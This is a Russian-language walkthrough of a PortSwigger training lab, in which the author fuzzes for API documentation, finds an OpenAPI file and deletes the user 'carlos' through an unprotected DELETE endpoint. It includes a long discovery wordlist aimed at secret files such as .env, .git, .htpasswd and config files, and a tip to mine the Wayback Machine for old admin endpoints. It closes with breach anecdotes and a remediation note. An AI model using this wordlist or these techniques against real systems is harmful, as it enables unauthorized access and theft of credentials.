



лаба
https://portswigger.net/web-security/api-testing/lab-exploiting-api-endpoint-using-documentation

нужно найти доступную апи документацию и удалить карлоса

------

вот ориг запрос
```http
GET / HTTP/2
Host: 0a8000a60312c49384f490cb00fc0058.web-security-academy.net
Cookie: session=5kXW9ooADOTc5mPyXgJECUZd0cdnHeMJ
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8000a60312c49384f490cb00fc0058.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```


---------

сразу через турбо интрудер запускаю пейлоад

```c
/api  
/api/ 
/v1  
/v2  
/graphql  
/swagger  
/api-docs  
/openapi.json
/admin

/swagger/index.html  
/swagger/ui  
/swagger-ui.html  
/swagger.json  
/swagger.yaml  
/api-docs/swagger.json  
/api-docs/swagger.yaml  
/docs  
/documentation  
/api/documentation  
/api/swagger  
/api/swagger-ui  
/api/swagger.json  
/api/swagger.yaml  
/openapi.yaml  
/api/openapi.json  
/api/openapi.yaml  
/v1/swagger.json  
/v2/swagger.json  
/v3/swagger.json

/graphql  
/graphiql  
/graphql/console  
/v1/graphql  
/v2/graphql  
/api/graphql  
/query  
/graphql/query

/api/v1  
/api/v2  
/api/v3  
/api/v4  
/api/v5  
/rest  
/rest/v1  
/rest/v2  
/api/rest  
/service  
/services  
/service/v1  
/services/v2

/admin/api  
/internal/api  
/private/api  
/partner/api  
/partner/v1  
/third-party/api  
/thirdparty/v1  
/backend/api  
/api/admin  
/api/internal  
/api/private

/api/1  
/api/2  
/api/3  
/api/latest  
/api/stable  
/api/beta  
/api/alpha  
/api/dev  
/api/test  
/api/staging

/api/json  
/api/xml  
/api/yaml  
/api/rest/json  
/api/rest/xml  
/api/data  
/api/endpoint  
/api/service  
/api/services  
/api/function  
/api/functions  
/api/method  
/api/methods  
/api/action  
/api/actions

/api/doc  
/api/docs  
/api/documentation  
/api/guide  
/api/reference  
/api/manual  
/api/help  
/api/index.html  
/api/readme  
/api/README

моб

/api/mobile  
/api/app  
/mobile/api  
/app/api  
/api/v1/mobile  
/api/android  
/api/ios  
/client-api  
/mobile-client

вот тут тоже может че-то будет

/robots.txt  
/sitemap.xml  
/.git/  
/backup/  
/phpinfo.php  
/cgi-bin/phpinfo.php  
/debug/  
index.php~  
index.php.bak  
index.php.swp  
index.php.save  
index.php.old  
index.php.orig  
config.php~  
config.php.bak  
.env~  
.env.bak  
.gitignore  
/debug  
/test  
/tests  
/dev  
/develop  
/development  
/stage  
/staging  
/admin/debug  
/api/debug  
/console/  
/web-console/  
/admin/  
/backup/  
/backups/  
/temp/  
/tmp/  
/logs/  
/log/  
/private/  
/hidden/  
/secret/  
/internal/  
/restricted/  
/secure/  
/protected/  
/uploads/  
/files/  
/downloads/  
/docs/  
/documentation/  
/api/docs/  
/swagger/  
/swagger-ui/  
/graphql/console/  
/.env  
/.htaccess  
/.htpasswd  
/WEB-INF/  
/WEB-INF/web.xml  
/META-INF/  
/META-INF/context.xml  
/server-status  
/server-info  
/config.php  
/config.xml  
/config.json  
/configuration.php  
/settings.php  
/wp-config.php  
/app.config  
/application.properties  
/application.yml  
/database.yml  
/error_log  
/error.log  
/access_log  
/access.log  
/debug.log  
/application.log  
/server.log  
/catalina.out
```




запрос по GET /api/openapi.json HTTP/1.1

выдал ответ интересный
```json

HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-Content-Encoding: gz
Connection: close
Content-Length: 507

{"openapi":"3.0.0","info":{"version":"v0.1","title":"We Love To Shop API (REST API)"},"servers":[{"url":"./"}],"paths":{"/user/{user.username}":{"get":{"parameters":[{"name":"user.username","in":"path","required":true,"schema":{"type":"string"}}],"responses":{"200":{"description":"user","content":{"application/json":{"schema":{"type":"object","$ref":"#/components/schemas/User"}}}},"default":{"description":"Error","content":{"application/json":{"schema":{"type":"object","$ref":"#/components/schemas/Error"}}}}}},"delete":{"parameters":[{"name":"user.username","in":"path","required":true,"schema":{"type":"string"}}],"responses":{"200":{"description":"user","content":{"application/json":{"schema":{"type":"object","$ref":"#/components/schemas/Result"}}}},"default":{"description":"Error","content":{"application/json":{"schema":{"type":"object","$ref":"#/components/schemas/Error"}}}}}},"patch":{"parameters":[{"name":"user.username","in":"path","required":true,"schema":{"type":"string"}}],"requestBody":{"content":{"application/json":{"schema":{"type":"string"}}}},"responses":{"200":{"description":"user","content":{"application/json":{"schema":{"type":"object","$ref":"#/components/schemas/User"}}}},"default":{"description":"Error","content":{"application/json":{"schema":{"type":"object","$ref":"#/components/schemas/Error"}}}}}}}},"components":{"schemas":{"Error":{"oneOf":[{"$ref":"#/components/schemas/ServerError"},{"$ref":"#/components/schemas/ClientError"}],"discriminator":{"propertyName":"type"}},"ClientError":{"type":"object","required":["error"],"properties":{"code":{"type":"integer","format":"int32","minimum":-2147483648,"maximum":2147483647},"error":{"type":"string"}}},"Result":{"type":"object","required":["status"],"properties":{"status":{"type":"string"}}},"ServerError":{"type":"object","required":["error"],"properties":{"code":{"type":"integer","format":"int32","minimum":-2147483648,"maximum":2147483647},"error":{"type":"string"}}},"User":{"type":"object","required":["username","email"],"properties":{"username":{"type":"string"},"email":{"type":"string"}}}}}}
```

вижу вот такую ручку
```json
"delete":{"parameters":
[
{"name":"user.username",
"in":"path",
"required":true,
"schema":

{"type":"string"}
}
],
```

---
отправляю 
```http
GET /api/user/carlos HTTP/2
Host: 0a8000a60312c49384f490cb00fc0058.web-security-academy.net
Cookie: session=5kXW9ooADOTc5mPyXgJECUZd0cdnHeMJ
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8000a60312c49384f490cb00fc0058.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```
но ответ 401  "Unauthorized"

----
емае - тут вообще висит открытка!
по GET /api/ HTTP/2 - попросту все открыто и так!!

почему интрудер не  нашел это сразу? 
вот почему! 
я тестил
GET /api HTTP/1.1
а нужно было
GET /api/ HTTP/1.1 !!!

и по  /api/ вообще есть открытый для всего мира веб интрфейс!

```html
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 3419

<!DOCTYPE html>
<html>
<!--LAB_HEAD_START-->
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsEcommerce.css rel=stylesheet>
        <title>Exploiting an API endpoint using documentation</title>
    </head>
<!--LAB_HEAD_END-->
        <script src="/resources/labheader/js/labHeader.js"></script>
        <!--LAB_HEADER_START-->
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Exploiting an API endpoint using documentation</h2>
                            <a id='lab-link' class='button' href='/'>Back to lab home</a>
                            <a class=link-back href='https://portswigger.net/web-security/api-testing/lab-exploiting-api-endpoint-using-documentation'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <!--LAB_HEADER_END-->
        <div theme="ecommerce">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                    </header>
                    <link rel="stylesheet" href="static/css/sass.css">
                    <div id='header'><a href='/'></a><div class='pull-right'></div></div><div id='endpoints'><table class='table table-hover'><tr><th>Verb</th><th>Endpoint</th><th>Parameters</th><th>Response</th></tr><tr><td>GET</td><td>/user/[username]</td><td></td><td><span class='http-response'>200 OK</span>, <a href='doc/User'>User</a></td></tr><tr><td>DELETE</td><td>/user/[username]</td><td></td><td><span class='http-response'>200 OK</span>, <a href='doc/Result'>Result</a></td></tr><tr><td>PATCH</td><td>/user/[username]</td><td>email: String</td><td><span class='http-response'>200 OK</span>, <a href='doc/User'>User</a></td></tr></table></div><script src='static/js/classRegistry.js'></script>
<script src='static/js/endpoints.js'></script>
<script src='static/js/react.min.js'></script>
<script src='static/js/react-dom.min.js'></script>
<script src='static/js/bundle.js'></script>

                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>

```




вот он путь для делита DELETE /user/[username]

DELETE /user/carlos HTTP/1.

но тут тот же ответ 401 неавторизован - тоже самое что и когда пытался сделать запрос
GET /api/user/carlos HTTP/2




------
запрос
```http
DELETE /api/user/carlos HTTP/1.1
Host: 0a8000a60312c49384f490cb00fc0058.web-security-academy.net
Cookie: session=xzBp6S9v5DY9DsihRPuram6uqNd4N3Ok
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://burpsuite/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```
ответ 200

```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 25

{"status":"User deleted"}
```

----

короче - все на блюдечке с золотой коемочкой!! 
карлос удален!
все окей!

---
### вывод
вывод такой - что нельзя оставлять 
ни документацию в открытом виде - доступной для всех
нужно чтобы был доступ к таким панелям и файлам только через авторизацию сложную!

----------
но кстати есть еще архиваторы  ### Wayback Machine (Internet Archive)
или **[archive.today](https://archive.today/)** -

и вот если такая админ палель висела когда-то в открытом доступе без авторизации - как тут!

и если она там сохранена, и даже если уже закрыли от всех такую админ панель, то есть шанс - что в Wayback Machine (Internet Archive) где-то отсалась эта панель 

и спустя время можно от туда вытащить нужные ручки!

и реально такие случаи бывают! афигеть!

------------

#### ПРИМЕРЫ

#### ИНЦИДЕНТ C README (2024)

Был случай с платформой ReadMe (это где API документацию хостить можно). У них токены (API ключи) пользователей случайно светились на публичных страницах логина несколько месяцев [](https://docs.readme.com/main/changelog?page=8).

И вот самое интересное для твоего вопроса - **Internet Archive (Wayback Machine) сохранил эти страницы**. Злоумышленник нашел в кеше эти токены, проверил - а они до сих пор рабочие. ReadMe пришлось отзывать и перевыпускать **все** токены всех пользователей, потому что они не могли контролировать утечку через архив [](https://docs.readme.com/main/changelog?page=8).

#### INTERNET ARCHIVE САМ ПОПАЛ (2024)

Тут вообще пиздец циничный. Internet Archive (та самая организация которая хранит копии сайтов) сама обосралась по полной [](https://www.anquanke.com/post/id/301122)[](https://securityaffairs.com/170068/data-breach/internet-archive-second-data-breach.html)

У них на одном из серверов разработки нашли открытый GitLab конфиг с токеном авторизации. Хакер скачал исходники, а там внутри лежали **еще токены и учетки** - включая доступ к БД с 31 миллионом записей пользователей и **Zendesk API токен** для поддержки [](https://www.anquanke.com/post/id/301122)[](https://www.itsec.ru/news/zloumishlenniki-ispolzavali-skomprometirovanniye-kluchi-dlia-dostupa-k-dannih-internet-archive)

Zendesk токен давал доступ к 800 тысячам тикетов с 2018 года, включая документы, которые пользователи загружали для удаления своих страниц из архива [](https://www.malwarebytes.com/pl/blog/news/2024/10/internet-archive-attackers-email-support-users-your-data-is-now-in-the-hands-of-some-random-guy?utm_campaign=b2c_pro_oth_20241028_octoberweeklynewsletter_nonpaid_v4_2_172985459854&utm_content=wayback_machine_logo&utm_medium=email&utm_source=iterable)[](https://securityaffairs.com/170068/data-breach/internet-archive-second-data-breach.html)

И тут самый сок: хакер написал в поддержку самого Internet Archive **через их же систему** и послал их нахуй 😂 за то что они **не поменяли скомпрометированные токены за две недели** [](https://www.malwarebytes.com/pl/blog/news/2024/10/internet-archive-attackers-email-support-users-your-data-is-now-in-the-hands-of-some-random-guy?utm_campaign=b2c_pro_oth_20241028_octoberweeklynewsletter_nonpaid_v4_2_172985459854&utm_content=wayback_machine_logo&utm_medium=email&utm_source=iterable). Цитата:

> "Ваши данные теперь в руках какого-то левого чувака. Если не я, так кто-то другой" [](https://www.malwarebytes.com/pl/blog/news/2024/10/internet-archive-attackers-email-support-users-your-data-is-now-in-the-hands-of-some-random-guy?utm_campaign=b2c_pro_oth_20241028_octoberweeklynewsletter_nonpaid_v4_2_172985459854&utm_content=wayback_machine_logo&utm_medium=email&utm_source=iterable)

Токен Zendesk с декабря 2022 валялся открытый и его даже ротировали несколько раз, но **неправильно** [](https://www.anquanke.com/post/id/301122)[](https://securityaffairs.com/170068/data-breach/internet-archive-second-data-breach.html)

#### PEARSON (2025)

Образовательная корпорация Pearson. Хакеры нашли GitLab Personal Access Token в публичном `.git/config` файле [](https://www.unosecur.com/blog/pearson-and-internet-archive-breaches-how-one-leaked-git-token-can-wreck-multi-cloud-security). С этим токеном они склонировали приватные репозитории и вытащили оттуда хардкоженные ключи от AWS, Google Cloud, Snowflake и Salesforce [](https://www.unosecur.com/blog/pearson-and-internet-archive-breaches-how-one-leaked-git-token-can-wreck-multi-cloud-security)

Потом перешли в продакшен и тихонько выкачивали терабайты "legacy" данных месяцами [](https://www.unosecur.com/blog/pearson-and-internet-archive-breaches-how-one-leaked-git-token-can-wreck-multi-cloud-security)

###### COMMON CRAWL (2025)

Common Crawl - это некоммерческая организация, которая собирает архив интернета для исследований и обучения ИИ. Их датасет за декабрь 2024 содержал **12 000 живых API ключей**, которые до сих пор работали [](https://incidentdatabase.ai/fr/entities/common-crawl-dataset-\(december-2024-archive\)/)[](https://incidentdatabase.ai/entities/common-crawl/)Любой кто скачал датасет для обучения нейросеток получал доступ к этим ключам

###### ESA (2025)

Европейское космическое агентство. Хакер выставил на продажу 200 ГБ данных из их Bitbucket репозиториев, включая проприетарную техническую документацию, исходники и **API-токены**

